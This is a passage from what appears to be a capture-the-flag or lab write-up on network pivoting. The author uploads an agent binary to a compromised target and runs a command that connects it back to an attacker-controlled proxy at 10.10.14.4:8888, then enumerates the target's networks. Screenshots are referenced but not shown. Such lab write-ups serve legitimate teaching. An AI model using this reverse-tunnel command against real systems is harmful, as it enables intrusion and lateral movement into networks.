 And I uploaded the `agent` binary on the target machine using a Python web server.

Execute the `agent` with the same port on the `proxy`

```
./linux-agent -connect 10.10.14.4:8888 -ignore-cert
```

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Connection established! Now we enter the session and run `ifconfig` to check out available networks

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>
